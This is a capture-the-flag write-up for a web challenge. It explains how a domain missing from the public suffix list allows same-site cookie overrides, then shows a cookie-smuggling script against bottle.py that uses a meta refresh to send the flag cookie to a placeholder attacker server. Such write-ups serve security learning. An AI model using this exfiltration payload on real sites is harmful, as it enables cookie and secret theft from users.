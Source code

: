 # Flag Server

* Round: 43 (2024/03)
* Category: Web
* Points: 150
* Solves: 3

## Description

On this website, you can set your own flag and read it for free!

http://flag.1337.cx/

## Solution

By using whois, you can find `1337.cx` is a domain of `afraid.org`, a free dns and subdomain provider that everyone can use. Combined with the fact that `1337.cx` is not in [public suffix list](https://publicsuffix.org/), owning another subdomain allows you to have a **Same-Site** access to `flag.1337.cx`.

> BTW, there is also some relevant [issue](https://github.com/publicsuffix/list/issues/271) about whether those domain should belong to PSL.

So now you are able to override cookie `flag` on domain `1337.cx` and thus control the reponse, you still can't XSS due to the strict CSP. The intended way is to do a [cookie smuggling](https://blog.ankursundara.com/cookie-bugs/#cookie-smuggling) on bottle.py to control the prefix and suffix of flag, and leak the flag using meta redirect.

```html
<script>
	document.cookie = 'flag="start <meta http-equiv=refresh content=\'0 ; domain=1337.cx; path=/aa' // start
	document.cookie = 'url=https://YOUR_SERVER/leak? ; domain=1337.cx; path=/aa' // mid
	document.cookie = 'z=\'> end" ; domain=1337.cx;' // end
	location = 'http://flag.1337.cx/aa'
</script>
```

And the response would be:

```html
start <meta http-equiv=refresh content='0; url=https://YOUR_SERVER/leak?; flag=REAL_FLAG_HERE; z='> end
```

One of the problem is that you can't insert `;` in your response (needed by meta refresh) becuase that is how cookie are split, so I avoided that by adding another cookie key `url` and let the browset to add `;` for me. Another way is to use octal encoding like `\073`, and this is used by two people who solved this :D
